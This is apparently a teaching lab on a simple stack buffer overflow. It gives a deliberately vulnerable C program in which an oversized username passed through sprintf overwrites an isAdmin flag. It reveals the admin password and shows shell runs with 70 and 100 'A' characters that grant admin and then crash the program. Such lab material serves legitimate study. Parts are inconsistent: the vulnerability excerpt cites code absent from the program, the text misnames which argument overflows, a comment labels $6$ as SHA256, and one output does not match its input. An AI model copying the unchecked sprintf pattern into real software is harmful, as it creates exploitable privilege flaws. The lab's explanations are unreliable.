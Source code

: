 # Simple Buffer overflow - local variable overwrite

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change a sensitive variable, and based on this the function flow,
which enables us to gain "admin" privileges.


## Goal

* Understand C arrays by misusing them
* Get comfortable with gdb
* Deeper understanding of the stack


## Vulnerable program

We have the following program:

challenge09.c:
```c
#include <stdio.h>
#include <stdlib.h>
#include <crypt.h>
#include <string.h>

/* hash of: "ourteacheristehbest" */
const char *adminHash = "$6$saaaaalty$cjw9qyAKmchl7kQMJxE5c1mHN0cXxfQNjs4EhcyULLndQR1wXslGCaZrJj5xRRBeflfvmpoIVv6Vs7ZOQwhcx.";


int checkPassword(char *password) {
    char *hash;

    /* $6$ is SHA256 */
    hash = crypt(password, "$6$saaaaalty");

    if (strcmp(hash, adminHash) == 0) {
        return 1;
    } else {
        return 0;
    }
}


void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames

    // Check if user has admin privileges
    isAdmin = checkPassword(password);

    // create internal username
    sprintf(name, "%s-%s", "cmd", username);

    if(isAdmin > 0) {
        printf("Hello %s.\nYou are admin!\nisAdmin: 0x%x\n", name, isAdmin);
    } else {
        printf("Hello %s.\nYou are not admin.\nisAdmin: 0x%x\n", name, isAdmin);
    }
}


int main(int argc, char **argv) {
    if (argc != 3) {
        printf("Call: %s <name> <password>\n", argv[0]);
        exit(0);
    }

    handleData(argv[1], argv[2]);
}
```

You can compile it by calling `make` in the folder `~/challenges/challenge09`


## Vulnerability

The vulnerability lies here:

```
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[64]; // should be enough for all usernames
	[...]
	strcpy(firstname, username);
	[...]
}


int main(int argc, char **argv) {
	[...]
    sprintf(name, "%s-%s", "cmd", username);
}
```

The second argument of the program is copied into a stack buffer `name` of 64 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 sheldon test
Hello cmd-sheldon.
You are not admin.
isAdmin: 0x0
```

The password "test" seems to be not correct, as the program tells us "You are not admin".


Lets execute it with the correct password `ourteacheristehbest`:
```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 sheldon ourteacheristehbest
Hello cmd-sheldon.
You are admin!
isAdmin: 0x1
```

With the correct password, a message will be printed indicating that the user "cmd-sheldon"
has admin privileges.

## Abnormal behaviour - overflow

What happens when you insert a string which is longer than 64 bytes? Lets try it.
We can use python to print 70 characters:

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 `python -c 'print "A"*70'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
```

## Abnormal behaviour - more overflow

What if we even add some more characters? Lets say 100.

```
root@hlUbuntu32aslr:~/challenges/challenge09# ./challenge09 `python -c 'print "A"*100'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.
You are admin!
isAdmin: 0x41414141
Segmentation fault (core dumped)
```


## Questions

* What is happening here? Why Are we "admin" if we use a username which is 70 bytes long?
* Why does it crash, if we use a username which is 100 bytes long?
